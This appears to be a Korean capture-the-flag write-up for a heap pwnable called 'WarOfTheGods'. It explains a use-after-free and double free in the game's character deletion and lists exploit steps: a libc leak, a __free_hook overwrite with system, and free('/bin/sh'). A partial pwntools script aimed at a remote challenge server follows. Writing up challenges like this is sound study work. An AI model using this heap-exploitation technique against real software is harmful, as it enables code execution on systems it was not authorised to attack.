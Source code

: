 ### Reversing
바이너리 분석하기전에 취약점을 찾아서 리버싱을 많이 안하고 익스했다.
1. Character management - 캐릭터를 만듬
	1. Human
		1. birth (캐릭생성)<br>
		2. death (캐릭삭제)<br>
		3. birthList (캐릭보기)<br>
		4. edit (캐릭이름수정)<br>
	2. God
		1. Creating (캐릭생성)<br>
		2. Killing (캐릭삭제)<br>
		3. New_God_List (캐릭보기)<br>
		4. Editing (캐릭이름수정)<br>
	3. DemiGod
		1. Craete (캐릭생성)<br>
		2. Delete (캐릭삭제)<br>
		3. List (캐릭보기)<br>
		4. Edit (캐릭이름수정)<br>
2. Colosseum - 싸움 (익스에 안써서 잘은 모르겠다)
3. Game way - 게임방법 출력

### Vulnerability
DemiGod은 할당받을때 부모를 Human에서 하나, God에서 하나선택해야한다. 그런데 DemiGod을 삭제하면 부모 God의 name이 free된다. 그 시점에서 부모 God이 free된 name을 가르키므로 Use-After-Free가 발생한다. 또한 부모 God을 삭제하면 한번더 name을 free해서 double free가 발생한다. 

### Exploit
Leak은 unsorted bin chunk의 fd,bk를 이용하여 libc를 leak하면 된다. (할당시 chunk초기화를 진행하지 않음) 익스는 약간 복잡한데, 아래와같은 과정을 통하여 할 수 있다.

1. libc_leak (using unsorted chunk)
2. create human chunk
3. create god chunk
4. create demigod chunk
5. free demigod chunk (UAF!!) (god name chunk size is 0x30)
6. create human chunk (god name -> human chunk)
7. create human chunk
8. delete human chunk(6) (free god_name)
9. delete human chunk(7)
10. delete demigod chunk(6) (free demigod) (Double Free!!)
11. create human chunk (weapon size is not 0x30)
12. create human chunk (weapon size is 0x30)
13. overwrite free_hook in human chunk
14. free_hook -> system (using edit)
15. free("/bin/sh")

(코드안 주석은 기분대로 단거니까 무시해주세요)
```python
from pwn import *

#s = process('./WarOfTheGods')
s = remote('222.110.147.52',5265)
l = ELF("/lib/i386-linux-gnu/libc.so.6")

def create(character_type):
	s.sendlineafter('> ','1')
	s.sendlineafter('> ',character_type)
	s.sendlineafter('> ','1')
pause()

create('1')
s.sendlineafter(': ',str(0x100)) # len
s.sendlineafter(': ',"A" * 0x30) # name
s.sendlineafter('? ','2') # weapon
```